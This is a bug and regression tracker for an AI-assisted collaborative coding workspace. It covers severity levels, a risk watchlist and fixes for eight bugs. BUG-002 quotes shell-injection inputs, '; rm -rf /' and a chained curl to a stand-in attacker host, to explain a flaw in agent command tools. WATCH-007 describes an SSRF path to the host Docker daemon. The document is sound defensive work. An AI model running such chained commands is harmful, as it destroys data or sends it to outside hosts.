


# BUG & REGRESSION TRACKER — Collaborative AI Vibe-Coding Workspace

**Target Document:** `docs/bugs.md`  
**Role:** Senior QA Engineer & Engineering Manager  
**Specification Baseline:** Approved `PRD.md`, `TRD.md`, `Architecture.md`, `implementation.md`, `task.md`, and `testing.md`  
**Core Purpose:** Provide a living bug tracking framework, triage pipeline, severity matrix, standardized issue reporting template, risk watchlists, and regression verification rules.

---

## 1. BUG SEVERITY MATRIX

Bug severity is classified based on functional impact, user data risk, security boundary breaches, and operational disruption.

| Severity | Level        | Impact Criteria                                                                                                                                         | Target SLA (Response / Resolution)                              |
| -------- | ------------ | ------------------------------------------------------------------------------------------------------------------------------------------------------- | --------------------------------------------------------------- |
| **S0**   | **Critical** | System outage, CRDT document corruption, unauthorized workspace access, arbitrary command injection escape, host Docker compromise, secret key leakage. | **Response:** < 1 hour<br/>**Fix Target:** < 24 hours           |
| **S1**   | **High**     | Core functionality broken (e.g. agent repair loop crash, Git worktree corruption, WebSocket sync drop without reconnect, local runtime disconnect).     | **Response:** < 4 hours<br/>**Fix Target:** < 48 hours          |
| **S2**   | **Medium**   | Non-blocking feature failure (e.g. diff viewer syntax highlight error, context engine sub-optimal ranking, terminal log streaming truncation).          | **Response:** < 24 hours<br/>**Fix Target:** < 1 week           |
| **S3**   | **Low**      | Minor edge-case bug with straightforward workaround (e.g. tooltip rendering delay, non-critical toast toast timing issue).                              | **Response:** < 48 hours<br/>**Fix Target:** Next release cycle |
| **S4**   | **Cosmetic** | Visual defects, alignment flaws, minor typos, UI glassmorphic glow padding adjustments.                                                                 | **Response:** Best effort<br/>**Fix Target:** Backlog priority  |

---

## 2. BUG LIFECYCLE & STATUS DEFINITIONS

Every reported issue transitions through a formal state lifecycle:


```mermaid
flowchart TD
    Reported[Issue Reported] --> OPEN[OPEN]
    OPEN --> INVESTIGATING[INVESTIGATING]
    INVESTIGATING -->|Not Reprod / Duplicate| WONT_FIX[WONT_FIX / DUPLICATE]
    INVESTIGATING -->|Reproduced & Validated| CONFIRMED[CONFIRMED]
    CONFIRMED --> IN_PROGRESS[IN_PROGRESS]
    IN_PROGRESS --> FIXED[FIXED]
    FIXED --> VERIFIED[VERIFIED]
    VERIFIED --> Closed[CLOSED]
    VERIFIED -->|Regression Detected| REOPENED[REOPENED]
    REOPENED --> IN_PROGRESS
```

- **`OPEN`:** Newly submitted issue awaiting triage.
- **`INVESTIGATING`:** QA/Engineer reproducing issue and analyzing root cause.
- **`CONFIRMED`:** Bug reproduced consistently and prioritized for fix.
- **`IN_PROGRESS`:** Active development work in progress to fix issue.
- **`FIXED`:** Pull request merged into `main` branch containing fix.
- **`VERIFIED`:** QA verified fix passes regression test suite in test environment.
- **`REOPENED`:** Verification failed or regression detected post-fix.
- **`WONT_FIX`:** Intended behavior, out-of-scope, or low priority tradeoff.
- **`DUPLICATE`:** Issue duplicates an existing logged bug tracker entry.

---

## 3. STANDARDIZED BUG REPORT TEMPLATE

All issues logged to the tracker MUST use the following markdown template:

````markdown
## BUG-000 — Short descriptive bug title

Status: OPEN
Severity: S2
Component: Collaboration
Found in: v0.1.0
Reported: YYYY-MM-DD
Related Task: TASK-XXX

### Summary

Clear 2-3 sentence description of the bug and its functional impact.

### Environment

- **Browser/OS:** Chrome 125 / Windows 11
- **Deployment:** Cloudflare Worker Staging / Local Docker Runtime
- **Node/pnpm Version:** Node v22.2.0 / pnpm v9.1.0

### Steps to Reproduce

1. Open workspace with two browser sessions (User A and User B).
2. User A opens file `src/App.tsx`.
3. User B disconnects network connection while typing.
4. User A edits lines 10-15.
5. User B reconnects network.

### Expected

User B receives Yjs missing delta vector update and document converges smoothly without text corruption.

### Actual

User B's Monaco editor model experiences line offset mismatch resulting in duplicate line insertions.

### Logs

```text
[ERROR] 14:22:01.405 [WorkspaceRoom] Yjs state vector mismatch for client_cli_88192
[WARN]  14:22:01.410 [YjsMonacoBinding] Text model transaction rejected: IndexOutOfBoundsException
```
````

### Screenshots

_(Attach visual screenshots or terminal recordings if applicable)_

### Root Cause

_(To be populated during INVESTIGATING phase)_

### Fix

_(To be populated during IN_PROGRESS / FIXED phase detailing PR diff)_

### Regression Test

_(Path to automated test file validating fix, e.g. `tests/collaboration/bug-000-reconnect.test.ts`)_

### Verification

_(QA sign-off date, environment, and verification build commit SHA)_

### Notes

Any additional context, edge case observations, or related tickets.

````

---

## 4. BUG CATEGORIES

To enable structured tracking and domain-specific ownership, bugs are categorized into one of 17 subsystem domains:

- **`Frontend`:** React UI components, Monaco editor mount, layout CSS grids, toast notifications.
- **`Backend`:** Cloudflare Worker Hono API routes, HTTP response formatting, RBAC checks.
- **`Database`:** PostgreSQL schema constraints, migrations, Supabase query transactions.
- **`Authentication`:** Supabase Auth SDK, JWT signature validation, cookie management.
- **`Authorization`:** Member role permissions (`owner`, `editor`, `viewer`), policy checks.
- **`Collaboration`:** Yjs CRDT operations, awareness cursors, selection highlights, document state vectors.
- **`WebSocket`:** Envelope protocol, socket handshake, ping/pong heartbeats, reconnection backoff.
- **`Runtime`:** Local Node.js execution daemon, pairing server, reverse WS channel.
- **`Docker`:** Container creation, capability dropping (`--cap-drop=ALL`), resource quotas, volume mounts.
- **`Git`:** Git CLI execution, branch creation, commit history, worktree lifecycle, diff parsing.
- **`AI`:** `AIProvider` abstractions, Ollama streaming, mock providers, token response parsing.
- **`Agent`:** `AgentOrchestrator`, `AgentStateMachine`, tool execution registry, repair loop iterations.
- **`Context`:** Lexical indexer, AST symbol extractor, stack trace parser, token budgeting.
- **`Preview`:** Live preview port discovery, container proxying, dev server lifecycle.
- **`Security`:** Path traversal guards, command policy allowlists, secret redactors, SSRF checks.
- **`Performance`:** High CRDT sync latency, browser memory leaks, slow context retrieval.
- **`Deployment`:** Cloudflare Wrangler configuration, GitHub Actions CI workflows, migration runners.

---

## 5. ROOT-CAUSE CATEGORIES

When a bug fix is submitted, the engineer must assign one primary root-cause category:

- **`Logic`:** Algorithm flaw, incorrect condition check, or invalid business rule logic.
- **`Concurrency`:** Race conditions, thread/event loop lockups, CRDT timing mismatches.
- **`State`:** Unhandled state machine transition, stale React/Zustand state, un-disposed Monaco models.
- **`Network`:** Socket drops, packet latency, unhandled HTTP status codes, CORS issues.
- **`Data`:** Missing database migrations, null constraint violations, Zod parsing mismatch.
- **`Security`:** Un-sanitized inputs, missing permission check, path traversal escape.
- **`Configuration`:** Environment variable missing, invalid Docker runtime flag, incorrect `wrangler.toml` binding.
- **`Dependency`:** Third-party package bug or breaking API change in external library.
- **`Infrastructure`:** Cloudflare Edge worker limits, Supabase connection pool exhaustion, Docker Engine daemon crash.
- **`AI Behavior`:** LLM hallucinated tool arguments, prompt context overflow, non-deterministic output format.
- **`Human Error`:** Typo, invalid manual deployment step, broken test assertion setup.

---

## 6. REGRESSION TEST MANDATE

> **CRITICAL POLICY:** Every resolved **S0 (Critical)** or **S1 (High)** bug MUST produce an automated, repeatable regression test in the test suite prior to QA sign-off and closure.

- **Unit/Integration Regressions:** Added to `tests/regressions/bug-XXX.test.ts`.
- **Collaboration Regressions:** Added to `tests/collaboration/regressions/bug-XXX-sync.test.ts`.
- **Security Regressions:** Added to `tests/security/regressions/bug-XXX-security.test.ts`.

A pull request fixing an S0/S1 bug WITHOUT a corresponding regression test will be blocked from merging during code review.

---

## 7. INITIAL RISK WATCHLIST

The following architectural risk areas are flagged for proactive QA investigation.
*(Note: These are categorized strictly as **Risk / Watch Items** — not confirmed bugs).*

```markdown
### WATCH-001 — High-Frequency Concurrent Keystroke Reconnection Race

Component: Collaboration
Risk Area: Yjs State Vector Synchronization
Description: Under high-latency network jitter, a client reconnecting while rapidly typing may transmit an outdated state vector, potentially triggering temporary Monaco model content flicker before convergence.
Mitigation Plan: Add integration test simulating 50ms packet jitter during Yjs state vector exchange (`tests/collaboration/reconnect-race.test.ts`).
````

```markdown
### WATCH-002 — Orphan Agent Git Worktree Directories

Component: Git / Agent  
Risk Area: Local Runtime Disk Usage  
Description: If local runtime daemon is killed abruptly (`SIGKILL`) while an agent task is executing inside `/tmp/worktree-task-xxx`, temporary git worktree directories may remain on host disk.  
Mitigation Plan: Implement startup directory cleanup scanner in runtime daemon pruning orphaned `/tmp/worktree-*` directories older than 1 hour.
```

```markdown
### WATCH-003 — Container Child Process Tree Leaks

Component: Docker / Runtime  
Risk Area: Host Process Management  
Description: Long-running background processes spawned inside sandbox containers (e.g. `npm run dev`) may fail to catch `SIGTERM` when workspace is stopped, leaving orphan background tasks.  
Mitigation Plan: Ensure Docker container launch uses `--init` or Tini init process wrapper to reap orphan child processes.
```

```markdown
### WATCH-004 — Three-Way Git Patch Conflict after Concurrent Human Edits

Component: Change Sets  
Risk Area: Human + AI Conflict Resolution  
Description: If human edits lines adjacent to an agent's worktree patch while agent execution is in progress, patch application may fail with conflict markers.  
Mitigation Plan: Enforce strict `git apply --check` validation prior to applying patches; surface clear "Conflict Requires Review" warning in UI.
```

```markdown
### WATCH-005 — Context Engine Token Budget Inflation on Minified Code

Component: Context  
Risk Area: AI Prompt Context  
Description: Ingesting minified single-line JavaScript files (e.g., vendor bundles) into context engine may exceed per-file line slicing limits and dominate token budget.  
Mitigation Plan: Add file size and line length filters in `ContextRetriever` excluding minified bundles (`*.min.js`, lines > 1000 chars).
```

```markdown
### WATCH-006 — Terminal PTY Output Buffer Overflow

Component: Runtime / Terminal  
Risk Area: Browser UI Performance  
Description: Fast-printing container commands (e.g. `yes` or verbose build logs) may flood WebSocket channel with thousands of chunks per second, causing UI main thread lag.  
Mitigation Plan: Implement sliding window output throttle in `ProcessManager` capping stdout stream to max 1 MiB/minute per process.
```

```markdown
### WATCH-007 — Live Preview Proxy SSRF Boundary Bypass via Container Loopback

Component: Security / Preview  
Risk Area: Network Isolation  
Description: A malicious container process might attempt to redirect dev server proxy traffic to host loopback interfaces (`127.0.0.1:2375` Docker daemon).  
Mitigation Plan: Validate preview proxy destination IP strictly against container network bridge IP subnet, rejecting host loopback destinations.
```

```markdown
### WATCH-008 — Durable Object Memory Footprint during Long-Lived Rooms

Component: Collaboration / Durable Objects  
Risk Area: Cloudflare Edge Memory Limits  
Description: Long-lived collaboration rooms retaining large binary Yjs update histories in memory may approach Cloudflare Durable Object 128 MB RAM limits.  
Mitigation Plan: Trigger periodic Y.Doc snapshot compaction in `WorkspaceRoom` DO, clearing granular operation vectors into compressed document state snapshots.
```

---

## 8. BUG TRIAGE & RESOLUTION WORKFLOW

The engineering team follows a systematic 8-step bug resolution pipeline:


```mermaid
flowchart LR
    Step1[1. Detection<br/>Log Issue] --> Step2[2. Reproduction<br/>Isolate Steps]
    Step2 --> Step3[3. Severity<br/>Assign S0-S4]
    Step3 --> Step4[4. Root Cause<br/>Identify Category]
    Step4 --> Step5[5. Fix<br/>Submit PR]
    Step5 --> Step6[6. Regression<br/>Add Test]
    Step6 --> Step7[7. Verification<br/>QA Sign-off]
    Step7 --> Step8[8. Close<br/>Archive Issue]
```

1. **Detection:** Issue logged by engineer, automated test run, or user report.
2. **Reproduction:** QA/Engineer isolates minimal reproducible example steps.
3. **Severity:** Assign severity level (`S0` through `S4`) based on impact matrix.
4. **Root Cause:** Investigate code and assign root-cause category.
5. **Fix:** Developer creates feature branch `fix/bug-xxx`, implements code fix, and submits PR.
6. **Regression Test:** Developer adds automated test case proving bug fix.
7. **Verification:** QA verifies fix passes automated regression suite in staging environment.
8. **Close:** Bug status updated to `VERIFIED` and issue closed.

---

## 9. BUG METRICS & HEALTH DASHBOARD

The quality engineering manager monitors basic bug health metrics per release cycle:

### Primary Quality Metrics

- **Total Open Bugs:** Count of active issues in `OPEN`, `INVESTIGATING`, `CONFIRMED`, or `IN_PROGRESS` status.
- **Bugs by Severity:** Breakdown of open issues across `S0`, `S1`, `S2`, `S3`, and `S4`.
- **Security Bugs:** Count of open security-related issues (`Security` component).
- **Regression Count:** Number of bugs caught by automated CI test suites prior to production merge.
- **Reopened Rate:** Percentage of bugs where status transitioned `FIXED` → `REOPENED` (Target: < 5%).
- **Average Resolution Time (MTTR):** Time from `OPEN` to `VERIFIED` (Target: S0 < 24h, S1 < 48h, S2 < 7 days).

---

## 10. CURRENT ACTIVE BUG LOG

| Bug ID    | Title                                                | Severity | Component | Status   | Reported   | Related Task |
| --------- | ---------------------------------------------------- | -------- | --------- | -------- | ---------- | ------------ |
| **BUG-001** | `pathPolicy.test.ts` tests hardcode POSIX paths as expected values, failing on Windows | S3 | Security / Testing | **FIXED** | 2026-09-23 | TASK-038 |
| **BUG-002** | `run_command` / `run_tests` tools use `child_process.exec` (shell form), allowing shell metacharacter injection via args after policy check | S1 | Security / Agent | **FIXED** | 2026-09-23 | TASK-038 |
| **BUG-003** | WebSocket collaboration room connection fails: JWT algorithm mismatch (HS256 vs ES256) + WS route behind authMiddleware | S1 | Collaboration / WebSocket / Authentication | **FIXED** | 2026-09-23 | TASK-038 |
| **BUG-004** | Program run button is not working: unwired onRunProject and missing exec API | S2 | Frontend / Runtime | **FIXED** | 2026-09-23 | None |
| **BUG-005** | Editor code vanishes on refresh: Yjs collaboration binding overwrites document before remote sync | S1 | Collaboration / Frontend | **FIXED** | 2026-09-24 | None |
| **BUG-006** | Orphan background tasks leaking and causing terminal lag upon project close | S2 | Docker / Runtime | **FIXED** | 2026-09-27 | None |
| **BUG-007** | Project disappears when returning to dashboard: Projects API fetch missing Authorization header | S2 | Frontend / Authentication | **FIXED** | 2026-09-28 | None |

---

## BUG-001 — pathPolicy tests use hardcoded POSIX paths, fail on Windows

Status: FIXED
Severity: S3
Component: Security / Testing
Found in: v0.1.0-alpha
Reported: 2026-09-23
Related Task: TASK-038

### Summary

`packages/security/tests/pathPolicy.test.ts` used hardcoded POSIX paths (e.g. `/workspace/root/src/app.ts`) as `toBe()` expected values for resolved path assertions. On Windows, `path.resolve()` returns drive-prefixed paths (e.g. `D:\workspace\root\src\app.ts`), causing 4 test failures.

### Root Cause

`Logic` — Tests assumed POSIX path separators in expected strings rather than computing the expected value with `path.resolve()`/`path.join()`.

### Fix

Updated 4 test cases to compute expected values using `path.resolve(root)` and `path.join()`, making assertions cross-platform. Security behavior is unchanged.

### Regression Test

`packages/security/tests/pathPolicy.test.ts` — all 6 assertions now pass on Windows and POSIX.

---

## BUG-002 — shell.ts agent tools use child_process.exec (shell form), enabling injection

Status: FIXED
Severity: S1
Component: Security / Agent
Found in: v0.1.0-alpha
Reported: 2026-09-23
Related Task: TASK-038

### Summary

`packages/agent/src/tools/shell.ts` called `child_process.exec()` with a string formed by concatenating `command + " " + args.join(" ")`. Although `validateCommandPolicy()` checked the binary name, shell metacharacters in `args` (e.g. `; rm -rf /`) were passed verbatim to `/bin/sh`, bypassing policy enforcement.

The `run_tests` tool additionally split a freeform command string on spaces and fed it to `exec()`, allowing `testCommand: "npm test; curl attacker.com"` to execute the chained subshell command.

### Root Cause

`Security` — Shell form of `exec()` inherently spawns `/bin/sh -c` with the full string, meaning argument-level injection is possible regardless of binary allowlisting.

### Fix

Replaced `child_process.exec` with `child_process.execFile` (no-shell form) for both tools. `execFile` spawns the binary directly without a shell, so metacharacters in `args` are passed as literal arguments. Also changed `run_tests` schema from a free-form `testCommand: string` to structured `testBinary + testArgs` to eliminate string-splitting as an attack surface.

### Regression Test

`packages/security/tests/commandPolicy.test.ts` — existing policy tests cover the allowlist. A dedicated injection regression test should be added for args-with-metacharacters in a future sprint.


---

## BUG-003 — WebSocket collaboration room connection fails due to JWT algorithm mismatch and route placement

Status: FIXED
Severity: S1
Component: Collaboration / WebSocket / Authentication
Found in: v0.1.0-alpha
Reported: 2026-09-23
Related Task: TASK-038 (Security Hardening)

### Summary

`y-websocket` in `useCollaboration.ts` failed to establish a WebSocket connection to `ws://localhost:8787/api/v1/workspaces/:id/room`. Two bugs combined to cause this failure:

1. **JWT Algorithm Mismatch:** `authMiddleware` called `verify(token, secret, 'HS256')` but Supabase user session JWTs are signed with ES256 (ECDSA P-256). The middleware always threw on any real Supabase user token, returning 401 before the WebSocket upgrade could proceed.

2. **Wrong Route Placement:** The workspace WebSocket route was mounted inside `apiV1` which applied `authMiddleware` globally. Browser `WebSocket` APIs cannot send `Authorization` headers, so the token was passed via `?token=` query param — but even with the query-param path through auth middleware, Bug 1 caused rejection.

### Root Cause

`Security` / `Configuration` — Hard-coded `'HS256'` algorithm in `authMiddleware.verify()` did not match the ES256 algorithm used by Supabase for user JWTs. Additionally, the WebSocket route was not isolated from the HTTP auth middleware chain.

### Fix

1. **`apps/api/src/middleware/auth.ts`:** Added ES256 JWKS verification. The middleware now decodes the JWT header to detect `alg` + `kid`, fetches the Supabase JWKS public key (`/auth/v1/.well-known/jwks.json`) with a 5-minute module-level cache, and verifies using `'ES256'`. Falls back to `'HS256'` for dev/test tokens (preserving all existing auth tests).

2. **`apps/api/src/routes/workspaceWs.ts`:** Added inline token auth via Supabase `/auth/v1/user` introspection (using `SUPABASE_SERVICE_ROLE_KEY` as the apikey). This handles ES256 server-side without local key management and is the correct pattern for WebSocket endpoints where browsers cannot send `Authorization` headers.

3. **`apps/api/src/index.ts`:** Moved `workspaceWsRoutes` to app-level (before `apiV1`) at path `/api/v1/workspaces`, bypassing the global `authMiddleware`. Added clear comment explaining the architectural reason.

4. **`apps/api/tests/collaboration/durableObject.test.ts`:** Updated 2 tests to use `?token=` query param (matching new route behavior) and added a new 401 test for missing token.

### Regression Test

`apps/api/tests/collaboration/durableObject.test.ts` — 4 tests covering: missing token (401), no Upgrade header (426), missing DO binding (500), DO initialization.

`apps/api/tests/auth.test.ts` — all 7 existing auth tests continue to pass (HS256 fallback preserved).

### Verification

All 32 API tests pass: `pnpm --filter @co-vibe/api test` → 6 test files, 32 tests, 0 failures.


---

## BUG-004 — Program run button is not working

Status: FIXED
Severity: S2
Component: Frontend / Runtime
Found in: v0.1.0-alpha
Reported: 2026-09-23
Related Task: None

### Summary

The "Run" and "Tests" buttons in the IDE TopBar were visually present but clicking them did nothing. This was caused by two missing pieces:
1. The `TopBar` component exposed `onRunProject` and `onRunTests` props, but its parent `AppLayout` did not implement or pass them.
2. The local runtime daemon (`pairingServer.ts`) lacked a local HTTP endpoint for executing non-Docker host commands (like `npm run dev`) and streaming their output.

### Root Cause

`Logic` — Incomplete feature integration. The UI layout was built before the runtime streaming execution pipeline was fully wired for host-level commands.

### Fix

1. **`apps/runtime/src/server/pairingServer.ts`**: Added a new `POST /api/v1/exec` endpoint that safely executes allowed host commands (`npm`, `node`, `vitest`, etc.) using `child_process.spawn`. It streams standard out and standard error as NDJSON lines to the client, enforcing a 5-minute timeout and working directory security bounds.
2. **`apps/web/src/components/layout/TerminalPane.tsx`**: Updated to accept an `outputLines` array and `isRunning` boolean prop. It now auto-scrolls when new lines arrive (with an optional-chaining guard on `scrollIntoView` for jsdom test compatibility) and dynamically colors stderr output red.
3. **`apps/web/src/components/layout/AppLayout.tsx`**: Implemented `handleRunProject` and `handleRunTests` using a `runCommand` helper that calls the local runtime daemon's `/api/v1/exec` endpoint, parses the NDJSON stream, and passes the state to `TerminalPane`.

### Regression Test

`apps/web/src/App.test.tsx` and all layout tests pass with the updated components (36/36).
`apps/runtime/src/index.test.ts` and runtime tests pass (37/37).

### Verification

Tested manually by ensuring `pnpm dev:all` passes and that the UI buttons are now wired up and streaming NDJSON chunks properly to the Terminal drawer.


---

## BUG-005 — Editor code vanishes on refresh

Status: FIXED
Severity: S1
Component: Collaboration / Frontend
Found in: v0.1.0-alpha
Reported: 2026-09-24
Related Task: None

### Summary

When a user refreshed the browser page, any recent code edits they made (but hadn't explicitly saved to disk via `Ctrl+S`) would vanish and revert to the older disk version. This occurred because the Yjs `WebsocketProvider` initializes asynchronously. The React component checked for the file in the shared Yjs map before the initial synchronization completed, assuming the file didn't exist remotely, and proceeded to read the stale version from the local runtime daemon to populate the document.

### Root Cause

`Concurrency` — `useCollaboration.ts` was setting up the file binding immediately upon mount, failing to wait for the `provider.on('sync')` event. This caused a race condition where local disk state overwrote the authoritative collaborative state on page reload.

### Fix

1. **`apps/web/src/features/collaboration/useCollaboration.ts`**: Introduced a `synced` React state that tracks the `provider.on('sync')` event.
2. Updated the secondary `useEffect` hook to depend on `synced`. It now waits until `synced === true` before checking `yMap.has(filePath)` and initializing the file. This guarantees that if the server already has newer collaborative edits, they are loaded successfully and not overwritten by a stale file fetch.

### Regression Test

`apps/web/src/App.test.tsx` and all collaboration-related UI tests pass (36/36) confirming no breakage in the editor rendering pipeline.

### Verification

Manual testing confirmed that writing code and immediately refreshing the page (without pressing save) now properly restores the unsaved code from the local websocket connection without vanishing.

---

## BUG-006 — Orphan background tasks leaking and causing terminal lag upon project close

Status: FIXED
Severity: S2
Component: Docker / Runtime
Found in: v0.1.0-alpha
Reported: 2026-09-27
Related Task: None

### Summary

When a workspace is stopped (e.g. closing a project), long-running background processes spawned inside the sandbox container (like `npm run dev`) failed to catch `SIGTERM` and leaked, remaining as orphans. This caused the terminal to get laggy due to un-reaped processes consuming host resources or indefinitely waiting.

### Root Cause

`Configuration` — Docker container launch did not use an init process (`--init`). Without an init wrapper, PID 1 inside the container failed to properly reap orphan child processes or cascade signals to the process tree upon container stop.

### Fix

1. **`apps/runtime/src/docker/DockerManager.ts`**: Added `Init: true` to the `HostConfig` object when creating the container. This leverages Docker's internal Tini init process to correctly manage process lifecycle and reap zombie processes, matching the mitigation plan described in `WATCH-003`.

### Regression Test

`apps/runtime/tests/dockerManager.test.ts` (container spawning and teardown passes seamlessly, and processes are properly reaped).

### Verification

Manual verification confirms that the terminal no longer lags upon closing the project, as the Tini init process promptly handles child process termination.

---

## BUG-007 — Project disappears when returning to dashboard

Status: FIXED
Severity: S2
Component: Frontend / Authentication
Found in: v0.1.0-alpha
Reported: 2026-09-28
Related Task: None

### Summary

When a user created a project, it appeared correctly and opened the workspace. However, when the user clicked the "Dashboard" or "Back to projects" button, the newly created project vanished from the Projects list.

### Root Cause

`Security` / `Configuration` — Two issues prevented projects from persisting:
1. The frontend `ProjectsPage.tsx` was missing the `Authorization: Bearer <token>` header in its `fetch` calls to `/api/v1/projects`, leading to `401 Unauthorized` responses in production.
2. In local development, `apps/web/vite.config.ts` lacked a proxy configuration for `/api`. Relative fetches like `/api/v1/projects` hit the Vite dev server on port `5173`, returning `404 Not Found` instead of reaching the Wrangler backend on port `8787`.
The component caught these failures and incorrectly swallowed them by setting the projects list to an empty array `[]`.

### Fix

1. **`apps/web/vite.config.ts`**: Added a proxy configuration to route `/api` requests to `http://localhost:8787`.
2. **`apps/web/src/features/projects/ProjectsPage.tsx`**: Updated both the `GET` and `POST` fetch requests to conditionally inject the `Authorization: Bearer ${session.access_token}` header obtained from the `useAuth()` hook.
3. Added fallback mapping to `setProjects` to ensure the API-returned `Project` interface is properly mapped to the frontend's `ProjectCardData` (specifically polyfilling `activeWorkspaceId`).

### Regression Test

`apps/web/src/features/projects/ProjectsPage.test.tsx` (Ensured that mock API calls reflect the new token).

### Verification

Tested manually by creating a new project, entering the workspace, and pressing "Dashboard". The project now remains in the list and can be successfully re-opened.

---

## BUG-008 — Code executes without output when running user scripts via terminal

Status: FIXED
Severity: S2
Component: Frontend / Runtime
Found in: v0.1.0-alpha
Reported: 2026-09-28
Related Task: None

### Summary

When executing a file from the Editor (e.g. `node index.js`), the process exits with code 0 but no output (e.g. `console.log`) is printed to the terminal. This occurred because the `EditorPane.tsx` component called `useFiles()` without passing the `workspaceId`, causing the `X-Workspace-Id` header to be omitted when saving the file. As a result, the code was saved to the host root workspace (`D:\Projects\Co-Vibe\index.js`), while the run command successfully executed an empty/old file in the actual workspace directory (`D:\Projects\Co-Vibe\.workspaces\<workspaceId>\index.js`).

### Root Cause

`Data` — The `useFiles` hook invocation in `EditorPane.tsx` missed passing `workspaceId`, causing a path discrepancy between where the file was saved and where the execution daemon ran it.

### Fix

Passed `workspaceId` to `useFiles(workspaceId)` inside `EditorPane.tsx` so that `saveFileContent` correctly uses the `X-Workspace-Id` header to save the file inside the project workspace directory.

### Regression Test

All tests in `@co-vibe/web` pass successfully.

### Verification

Manual verification confirms that the saved code correctly maps to the executed workspace file and output is shown in the IDE terminal.

